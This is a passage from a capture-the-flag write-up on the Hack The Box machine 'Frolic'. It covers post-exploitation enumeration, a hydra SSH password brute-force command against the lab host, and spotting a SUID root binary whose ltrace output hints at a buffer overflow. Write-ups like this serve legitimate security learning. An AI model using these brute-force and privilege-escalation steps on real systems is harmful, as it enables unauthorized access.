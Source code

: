 Time to move to Information Gathering on the target system.

I see that there are two users on the system, `ayush` and `sahay`.

```bash
www-data@frolic:~/html/playsms$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Sep 23  2018 .
drwxr-xr-x 22 root  root  4096 Sep 23  2018 ..
drwxr-xr-x  3 ayush ayush 4096 Sep 25  2018 ayush
drwxr-xr-x  7 sahay sahay 4096 Sep 25  2018 sahay
```

I have collected several passwords at this point, so let's try brute forcing an SSH login as either of these two users with any of those passwords.

```bash
hydra -L users.txt -P passwords.txt ssh://10.10.10.111

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 16:08:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:2/p:4), ~1 try per task
[DATA] attacking ssh://10.10.10.111:22/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 16:08:08
```

It is not successful. However, I can read the user flag from `/home/ayush/user.txt` as the `www-data` user.

In the `ayush` home directory, there is a `.binary` directory with a SETUID binary.

```bash
www-data@frolic:/home/ayush/.binary$ ls -la
ls -la
total 16
drwxrwxr-x 2 ayush ayush 4096 Sep 25  2018 .
drwxr-xr-x 3 ayush ayush 4096 Sep 25  2018 ..
-rwsr-xr-x 1 root  root  7480 Sep 25  2018 rop
```

The fact that it has the SUID sticky bit set (`-rws`) means that when I execute this file, I will execute it with the privileges of the user of the file, which is `root`. That this file is named `rop` ([return oriented programming][rop]) makes me think this will require a buffer overflow.

Sure enough, inspecting the system calls that the binary makes with `ltrace` shows that it runs `setuid(0)` to run as root and then copies our input into a buffer.

```bash
www-data@frolic:/home/ayush/.binary$ ltrace ./rop id
ltrace ./rop id
__libc_start_main(0x804849b, 2, 0xbffffe84, 0x8048540 <unfinished ...>
setuid(0)                                        = -1
strcpy(0xbffffd88, "id")                         = 0xbffffd88
printf("[+] Message sent: ")                     = 18
printf("id")                                     = 2
+++ exited (status 0) +++
```


[brainfuck]: https://en.wikipedia.org/wiki/Brainfuck
[cyberchef]: https://gchq.github.io/CyberChef/
[fcrackzip]: https://github.com/hyc/fcrackzip
[gchq]: https://www.gchq.gov.uk/
[hackthebox]: https://www.hackthebox.eu
[little-endian]: https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
[playsms]: https://playsms.org/
[ook]: https://esolangs.org/wiki/Ook!
[ret2libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[rop]: https://ctf101.org/binary-exploitation/return-oriented-programming/
[backup dirlist]: /assets/img/htb/frolic/backup-dir.png
[backup pass]: /assets/img/htb/frolic/backup-pass.png
[backup user]: /assets/img/htb/frolic/backup-user.png
[cyberchef results]: /assets/img/htb/frolic/third-cipher-to-brainfuck.png
[login source]: /assets/img/htb/frolic/9999-login-source.png
[login source creds]: /assets/img/htb/frolic/9999-login-creds-source.png
[phpinfo]: /assets/img/htb/frolic/phpinfo-test-page.png
[second cipher zip]: /assets/img/htb/frolic/second-cipher-decode.png
